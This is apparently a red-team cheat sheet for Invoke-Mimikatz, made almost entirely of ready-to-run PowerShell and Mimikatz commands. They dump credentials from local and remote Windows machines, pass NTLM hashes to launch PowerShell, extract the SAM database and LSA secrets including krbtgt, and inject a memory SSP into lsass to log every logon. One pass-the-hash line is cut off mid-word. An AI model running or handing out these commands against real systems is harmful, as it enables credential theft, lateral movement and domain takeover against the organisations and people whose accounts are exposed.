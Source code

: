 # MimiKatz.ps1

[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

**Mimikatz dump credentials on local machine**

```
Invoke-Mimikatz -Dumpcreds
```

**Mimikatz dump credentials on multiple remote machines**

```
Invoke-Mimikatz -Dumpcreds -Computername @(“<system1>”,”<system2>”)
Invoke-Mimikatz -Dumpcreds -ComputerName @("<computername 1>","<computername 2>")
```

**Mimikatz start powershell pass the hash (run as local admin)**

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm hash> /run:powershell.exe"'
```

**Mimikatz dump from SAM**

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

or

```
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv
#Start mimikatz as administrator
privilege::debug
token::elevate
lsadump::sam SamBkup.hiv SystemBkup.hiv
```

**Mimikatz dump lsa (krbtgt to)**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

**Pass the hash for local admin**

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<computer> /user:Administrator /ntlm:<hash> /run:powe
```

**Use mimikatz to inject into lsass**

all logons are logged to C:\Windows\System32\kiwissp.log

```
Invoke-Mimikatz -Command ‘”misc:memssp”’
```
